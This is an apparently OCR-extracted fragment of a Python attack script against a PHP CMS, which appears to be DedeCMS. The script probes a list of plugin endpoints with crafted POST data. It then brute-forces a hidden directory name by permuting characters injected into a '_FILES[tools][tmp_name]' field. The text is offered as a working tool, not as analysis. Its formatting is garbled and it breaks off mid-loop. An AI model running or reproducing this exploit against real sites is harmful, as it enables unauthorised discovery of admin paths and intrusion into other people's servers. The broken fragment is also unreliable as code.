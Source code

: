 ```

global headers

def **init**(self,target):

self.target = target

```
 def Check(self):
            global data,check_message,valid_file

            File_Chek_List =['/tags.php','/include/vdimgck.php','/m/list.php','/m/view.php','/member/config.php','/plus/advancedsearch.php',
                              '/plus/arcmulti.php','/plus/bookfeedback.php','/plus/bookfeedback_js.php','/plus/car.php','/plus/carbuyaction.php',
                              '/plus/comments_frame.php','/plus/count.php','/plus/digg_ajax.php','/plus/digg_frame.php','/plus/digg_frame.php',
                                 '/plus/disdls.php','/plus/diy.php','/plus/download.php','/plus/erraddsave.php',
                                 '/plus/feedback.php','/plus/feedback_ajax.php','/plus/flink.php','/plus/flink.php','/plus/flink_add.php',
                                 '/plus/freelist.php','/plus/heightsearch.php','/plus/list.php','/plus/mytag_js.php',
                                 '/plus/posttocar.php','/plus/qrcode.php','/plus/recommend.php','/plus/rss.php','/plus/search.php','/plus/showphoto.php',
                                 '/plus/stow.php','/plus/view.php','/plus/vote.php','/special/index.php']
            for filename in File_Chek_List:
                    try:
                            res = requests.post(self.target+filename,data=data)
                            #print self.target+filename+"---&gt;"+res.text
                            if "Upload filetype not allow !" in res.text and res.status_code == 200:
                                    valid_file.append(filename)
                    except:
                            pass
            #print valid_file
            #print valid_file
            if len(valid_file):
                    if "/tags.php" in valid_file:
                            for i in valid_file:
                                    if i == "/tags.php":
                                            return i
                    else:
                            file_name = choice(valid_file)
                            return file_name
            else:
                    return False

    def Bute(self):
            f_name = self.Check()
            #print f_name
            if f_name != False:
                    if f_name == "/tags.php":
                            prefix = "./"
                    else:
                            prefix = "./../"
                    flag = 0
                    global characters,back_dir,data,check_message
                    for num in range(1,7):        
                            if flag:
                                    break
                            for pre in itertools.permutations(characters,num):
                                    pre = ''.join(list(pre))
                                    data["_FILES[tools][tmp_name]"] = data["_FILES[tools][tmp_name]"].format(p=pre)
                                    print("testing",pre)
                                    r = requests.post(self.target+f_name,data=data)
                                    if "Upload filetype not allow !" not in r.text and r.status_code == 200: